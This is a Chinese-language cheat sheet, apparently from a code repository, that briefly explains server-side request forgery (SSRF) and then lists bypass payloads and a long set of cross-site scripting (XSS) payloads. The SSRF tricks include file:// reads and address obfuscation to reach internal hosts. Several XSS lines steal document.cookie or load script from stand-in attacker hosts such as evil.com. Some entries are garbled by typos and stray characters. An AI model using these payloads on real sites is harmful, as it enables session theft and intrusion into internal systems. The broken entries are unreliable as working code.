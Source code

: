 ## SSRF&XSS
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等
```

admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php
file://user@evil.com:80@www.google.com//var/www/html/index.php%23
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
       
```
## XSS

## 常见payload

```
高版本的jQuery 可以使用sourceMappingURL来加载
- </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
- <script>alert(1);</script>
- <img src=0 onerror=alert(1)>
- "><script src=http://www.xxx.com/1.js></script>"
- "></iframe><script>alert(123)></script>
- <body onLoad="while(true) alert("XSS"),">
- "></tile><script>alert(1111)</script>
- </textarea>'"><script>alert(document.cookie)</script>
- '""><script language="JavaScript"> alert("X \nS \nS"),</script>
- </script></script><<<<script><>>>><<<script>alert(123)</script>
- <html><noalert><noscript>(123)</noscript><script>(123)</script>
- <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
- '></select><script>alert(123)</script>
- '>'><script src='http://www.evil.com/XSS.js'></script>
- }</style><script>a=eval;b=alert;a(b(/XSS/.source));</- script>
- <SCRIPT>document.write("XSS");</SCRIPT>
- a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
- ='><script>alert("XSS")</script>
- <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
- <body backgroud=javascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
- ">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
- Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
- "<marquee><img src=k.png onerror=alert(/XSS/)/>
- "<marquee><img src=k onerror=alert(/XSS/)>
- '"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
- </div><script>alert(123)</script>
- "><iframe src="javascript:alert(document.cookie)- '><iframe>
- <div style="backgroud:url("javascript:alert(I)')">
- <img src="java\nascript:alert(\"XSS\")">
- >"><img src="javascript:alert("XSS")">
- "style="background:url(javascript:alert(/XSS/))"
- >"><script>alert(/XSS/)</script>
- "></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html